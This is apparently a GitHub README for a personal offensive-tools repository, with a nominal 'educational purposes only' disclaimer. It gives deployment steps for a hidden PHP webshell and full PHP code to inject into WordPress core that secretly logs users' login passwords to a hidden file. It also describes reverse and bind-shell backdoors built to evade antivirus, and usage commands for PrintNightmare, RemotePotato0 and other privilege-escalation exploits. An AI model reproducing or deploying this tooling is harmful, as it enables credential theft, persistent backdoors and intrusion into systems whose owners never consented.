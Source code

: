 # JustRepository

Testing project

## Getting Started

These are repository for tools and code I modify and compile for fun (?). Note that "use this for educational purposes only".

### Webshell.php

simple webshell that protected with parameter.
Upload shell. rename it with ".page.backup.php". 
Call it with your own parameter:
```
example.com/uploads/.page.backup.php?dxnboy=4343
```
Modified from:

* **Flozz** - *PHP shell* - [P0wny Shell](https://github.com/flozz/p0wny-shell)

### Inject Wordpress

Inject user.php in wordpress to record credentials that login (kind of keylogger). Required user priviledge that can write to wordpress directory. 
edit file wordpress/wp-include/user.php. For real world usage there will be many login attemp if login page is exposed by default because people using bots to bruteforce, means that .txt logger file will has a lot of junk and large data storage.

before
```
if ( ! empty( $credentials['remember'] ) ) {
                $credentials['remember'] = true;
} else {
                $credentials['remember'] = false;
}
```

after inject
```
if ( ! empty( $credentials['remember'] ) ) {
                $credentials['remember'] = true;
                date_default_timezone_set('Asia/Jakarta');
                $credz = date('Y-m-d H:i:s') . " || IP: " . get_client_ip() . " || Username: " . $_POST['log'] . " && Password: " . $_POST['pwd'];
                file_put_contents('wp-content/uploads/.page.txt', base64_encode($credz).PHP_EOL, FILE_APPEND);
} else {
                $credentials['remember'] = false;
                date_default_timezone_set('Asia/Jakarta');
                $credz = date('Y-m-d H:i:s') . " || IP: " . get_client_ip() . " || Username: " . $_POST['log'] . " && Password: " . $_POST['pwd'];
                file_put_contents('wp-content/uploads/.page.txt', base64_encode($credz).PHP_EOL, FILE_APPEND);
}
```

Encoded with base64. call it in: and decode it with base64
```
wordpress/wp-content/uploads/.page.txt
```

### Reverse shell Evade Defender AV
In case nc.exe blocked or need single command line reverse shell on limited RCE or single click reverse shell. Using python 2.7 (os,socket,subprocess,threading) converted in exe binary spawn \windows\system32\cmd. Evade by encrypt with base64 and simple print argument. Catch with ncat for rev and meterpreter session for mrev
```
.\rev444
.\mrev4444
```
```
Usage: sel <target ip> <Port #>
.\sel 10.10.14.2 4141
```
### Awesome Backdoor Windows Bind Shell
Windows compiled x64 python exe bindshell Modified from:
* **NullByte** - *Windows Python Bind Shell* - [Python Bind Shell](https://null-byte.wonderhowto.com/how-to/create-bind-shell-python-0163951/)

bind-dxntboy-8282.exe has green status from virus total and can be run on updated Win 10 Enterprise (at least until today I compile). Bind to port 8282, USER:dxntboy, PASS:pass and ready to go. Default pipe from script will bind up to 5 connection. Will compile in stealth mode (no cmd pop up and running in background) if I has to use in real world and will mutate encoding base64 using tool from neetspooky base64 mutate. Run bind-dxntboy-8282.exe file and connect via ncat
```
nc <target> 8282
```

### SharpPrintNightmare.exe

* **cube0x0** - *CVE-2021-1675* - [SharpPrintNightmare](https://github.com/cube0x0/CVE-2021-1675)
```
#LPE
C:\SharpPrintNightmare.exe C:\rev.dll

#RCE using existing context
SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' '\\192.168.1.20'

#RCE using runas /netonly
SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' '\\192.168.1.10' hackit.local domain_user Pass123
 ```

### watch.sh & procmon.sh
In case we didn't get fully tty shell, watch.sh similar to watch and procmon.sh similar to pspy. Added time argument so script will stop in spesific time, by default script will stop at 300 seconds. 
```
./watch.sh <directory (default=.)> <time (default=300)>
./watch.sh /tmp/ 60
./watch.sh /opt/script/tmp/
./procmon.sh <time (default=300)>
```
### RemotePotato0.exe

* **antonioCoco** - *potato variant* - [RemotePotato0](https://github.com/antonioCoco/RemotePotato0)
```
#user session must exist
query user
.\RemotePotato0.exe -m 0 -r 10.0.0.20 -x 10.0.0.20 -p 9999 -s 1

#try different module
RemotePotato0.exe -m 1 -l 9997 -r 10.0.0.20
RemotePotato0.exe -m 2 -s 1
RemotePotato0.exe -m 3 -l 9997
 ```
 
 ### SeRestoreAbuse.exe

* **xct** - *Abuse SeRestorePriviledge* - [SeRestoreAbuse](https://github.com/xct/SeRestoreAbuse)
```
SeRestoreAbuse.exe "cmd /c ..."
SeRestoreAbuse.exe "cmd /c C:\temp\rshell.exe"
 ```

### InstallerFileTakeOver.exe x64 version

* **klinix5** - *CVE-2021-41379* - [InstallerFileTakeOver](https://github.com/klinix5/InstallerFileTakeOver)
```
InstallerFileTakeOver.exe <file-to-takeover>
 ```
